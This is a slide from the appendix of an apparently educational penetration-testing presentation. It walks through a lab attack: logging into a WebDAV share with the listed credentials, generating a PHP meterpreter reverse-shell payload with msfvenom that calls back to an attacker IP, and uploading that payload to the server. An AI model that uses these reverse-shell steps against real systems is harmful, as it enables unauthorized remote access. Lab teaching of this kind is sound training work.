

# APPENDIX 1: codes and resources
*Continued…
- Connect to the server via WebDav. `192.168.1.105/webdav/`
login: ryan pass: linux4u -
Upload a PHP reverse shell payload...
## create the payload - Attacker IP: 192.168.1.90
> msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php`
## copy payload to server
In Kali, navigate to Network File Manager/Browse Network: dav://192.168.1.105/webdav/
 login: ryan pass: linux4u copy msfvenom payload shell.php to dav://192.168.1.105/webdav/
OLANREWAJU IGE JULY, 2021